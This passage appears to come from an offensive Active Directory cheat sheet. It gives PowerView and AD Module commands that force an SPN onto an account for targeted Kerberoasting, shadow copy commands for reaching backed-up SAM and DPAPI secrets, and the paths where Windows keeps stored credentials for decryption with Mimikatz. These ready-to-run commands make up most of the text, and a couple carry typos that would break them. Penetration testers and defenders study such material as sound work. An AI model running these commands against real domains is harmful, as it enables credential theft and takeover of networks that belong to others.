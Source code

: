 - PowerView:
    
    ```powershell
    #Check for interesting permissions on accounts:
    Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
    
    #Check if current user has already an SPN setted:
    Get-DomainUser -Identity <UserName> | select serviceprincipalname
    
    #Force set the SPN on the account:
    Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
    ```
    
    ⧉ Copied!
    
- AD Module:
    
    ```powershell
    #Check if current user has already an SPN setted
    Get-ADUser -Identity <UserName> -Properties ServicePrincipalName | select ServicePrincipalName
    
    #Force set the SPN on the account:
    Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
    ```
    
    ⧉ Copied!
    

Finally use any tool from before to grab the hash and kerberoast it!

### Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Domain Escalation.

```powershell
#List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows

#List shadow copies using diskshadow
diskshadow list shadows all

#Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

⧉ Copied!

1.  You can dump the backuped SAM database and harvest credentials.
2.  Look for DPAPI stored creds and decrypt them.
3.  Access backuped sensitive files.

### List and Decrypt Stored Credentials using Mimikatz

Usually encrypted credentials are stored in:

- `%appdata%\Microsoft\Credentials`
- `%localappdata%\Microsoft\Credentials`
